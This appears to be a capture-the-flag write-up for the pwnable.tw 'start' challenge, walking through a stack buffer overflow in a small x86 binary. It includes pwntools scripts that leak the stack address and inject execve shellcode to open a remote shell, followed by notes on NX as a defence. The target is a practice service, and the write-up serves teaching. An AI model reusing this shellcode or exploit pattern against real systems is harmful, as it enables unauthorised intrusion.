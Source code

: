 # Start

Just a start.

Don't know how to start? Check GEF 101 - Solving pwnable.tw/start by @_hugsy

`nc chall.pwnable.tw 10000` [start](http://ctf.infury.org:8000/files/e97d02782974fbf2339f36fdc68b2317/start)

## WP

Connect to the server, we can get a string `Let's start the CTF:`, and then the program will wait for us to input.

![image-20210730180928991](start.assets/image-20210730180928991.png)

Open the executable file in disassembler and we can see the x86 assembly source code of a function `_start()`.

![image-20210730181202998](start.assets/image-20210730181202998.png)

From the instruction `0x0804806e` to `0x08048082`, the program pushed 20 bytes into the stack, and this is the string `Let's start the CTF:` that is printed later.

Instruction `0x08048087` to `0x0804808f` prints the string of 20 bytes onto the screen. In this process, `int 0x80` has the function similar to the `syscall` in MIPS, `ecx` represents the start address of the string, `dl` represents the number of bytes that should be printed, `bl` represents where should the bytes be printed to and `al` represents the function that should be executed when `int 0x80` is executed.

Similarly, instruction `0x08048091` to `0x08048097` reads 60 bytes and put them into the stack. However, there is only 20 bytes in the stack (the space that originally store the string `Let's start the CTF:`) that can be used as buffer to keep the user input.

What's worse, right after the buffer (`var_8`) stores the return address of `_start`. This means once we overflow the buffer, we can control the return address of `_start`.

We use payload `b'a' * 20 + b'\x87\x80\x04\x08'` to let PC jump to `mov ecx esp` after `_start` is finished. Because this time `esp` has already been pointing at `var_4`. (It's not `var_8` because after `retn`, `esp` will automatically move to the upper element in stack, I guess.)

```python
from pwn import *

conn = remote("chall.pwnable.tw", 10000)
print(conn.recv(20).decode(), end='')

shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

payload = b'a' * 20 + b'\x87\x80\x04\x08'
print(payload)
conn.send(payload)
pre_esp = conn.recv(20)
print(pre_esp)
conn.interactive()
```

Then the program will print the value of `var_4`, which is the value of `esp` when the instruction of address `0x08048060` was executed. This address is right before `var_4`, and this is the address we want.

![image-20210731004457650](start.assets/image-20210731004457650.png)

Then we can use the same trick of buffer overflow to input the address and shell code into the **data memory**. Since `add esp 0x14` will be executed again, we still need to use `'a' * 20` to fill the unused space and use `var_4 + 0x14` as the destination address (this is because we have padded `'a' * 20`).  

Then we will enter a shell code in normal order. This is because when memory receives users' byte input, it will not change its order if it's little-endian, and the move direction of PC in memory is from lower address to higher address.

```python
from pwn import *

conn = remote("chall.pwnable.tw", 10000)
print(conn.recv(20).decode(), end='')

shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

payload = b'a' * 20 + b'\x87\x80\x04\x08'
print(payload)
conn.send(payload)
pre_esp = conn.recv(20)
print(pre_esp)

pre_esp = u32(pre_esp[0:4])

payload = b'a' * 20 + p32(pre_esp + 0x14) + shellcode
conn.send(payload)
print(payload)
print('>>>>Shell Opened<<<<')
conn.interactive()
```

After that, **we will lead the PC into data memory and let it execute the shell code in data memory**. Then we can get the shell of the target server and get the flag.

![image-20210731005452022](start.assets/image-20210731005452022.png)



## Postscript

The usual methodology of PWN is putting the code we want into the memory and let the program to run it.

Usually this is done by buffer overflow, when the user input is not strictly checked or limited.

Since the user input is stored in data memory, so we will usually let PC jump into data memory and execute the shell code, i.e. bad instructions stored in data memory (instead of instruction memory).

To cope with this type of attack, there is one method called NX (Non-Executable Memory).

Data memory is used for only read and write in most cases. While in attack cases, data memory may contain instructions that are inputted by user and executed for attack purpose as we mentioned before. NX can keep the memory storing data non-executable, and in that case, this part of memory can still store the data perfectly but bad instructions can no longer be executed.

If NX is applied, we may choose some other methods instead of simply inputting shell codes and execute it, return-to-libc attack, for example.